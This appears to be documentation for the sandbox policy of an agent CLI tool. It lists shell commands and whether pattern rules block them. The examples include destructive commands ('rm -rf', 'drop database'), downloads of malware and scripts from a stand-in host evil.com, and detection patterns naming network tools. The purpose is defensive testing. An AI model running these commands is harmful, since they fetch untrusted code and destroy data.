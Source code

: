 # Sandbox Blocking Examples

## ✅ Example 1: BLOCKED - Destructive + Network
**Command**: `rm -rf /tmp/test && curl https://example.com`

**Result**: ❌ BLOCKED
**Reason**: 
- Pattern "rm.*-rf" matches (policy: `allow_network: false`)
- Contains "curl" (requires network)
- → Returns `SANDBOX_POLICY_VIOLATION` error

## ✅ Example 2: BLOCKED - Destructive + Network
**Command**: `wget https://evil.com/malware.tar.gz && rm -rf /tmp`

**Result**: ❌ BLOCKED
**Reason**:
- Pattern "rm.*-rf" matches
- Contains "wget" (requires network)  
- → Returns `SANDBOX_POLICY_VIOLATION` error

## ✅ Example 3: BLOCKED - Database destructive
**Command**: `drop database production && rsync data.tar.gz remote:/backup`

**Result**: ❌ BLOCKED
**Reason**:
- Pattern "drop.*database" matches (policy: `allow_network: false`)
- Contains "rsync" (requires network)
- → Returns `SANDBOX_POLICY_VIOLATION` error

## ⚠️ Example 4: NOT BLOCKED - Destructive without network
**Command**: `rm -rf /tmp/cleanup`

**Result**: ✅ ALLOWED
**Reason**:
- Pattern "rm.*-rf" matches (policy: `allow_network: false`)
- But NO network command detected
- → Still executes (would need actual kernel seccomp to block)

## ⚠️ Example 5: NOT BLOCKED - Network without destructive pattern
**Command**: `curl https://api.github.com/repos/stakpak/agent`

**Result**: ✅ ALLOWED  
**Reason**:
- Contains "curl" (requires network)
- But doesn't match destructive patterns
- Global policy allows network
- → Executes normally

## ⚠️ Example 6: NOT BLOCKED - Git commands
**Command**: `git pull origin main`

**Result**: ✅ ALLOWED
**Reason**:
- Contains "git pull" (requires network)
- Not in destructive patterns
- → Executes normally

## 🎯 Best Test Commands to Demonstrate Blocking:

### Test 1: Destructive download
```
stakpak --sandbox "Download dangerous file: curl https://evil.com/script.sh && rm -rf /tmp"
```
**Expected**: ❌ BLOCKED by policy

### Test 2: Network operations with cleanup  
```
stakpak --sandbox "Fetch data: wget http://example.com/data.tar && rm -rf old_files"
```
**Expected**: ❌ BLOCKED by policy

### Test 3: Destructive database operations
```
stakpak --sandbox "drop database test && rsync backup.tar remote:/location"
```
**Expected**: ❌ BLOCKED by policy

### Test 4: Safe network operations
```
stakpak --sandbox "Check if GitHub is up: curl -I https://github.com"
```  
**Expected**: ✅ ALLOWED (not destructive)

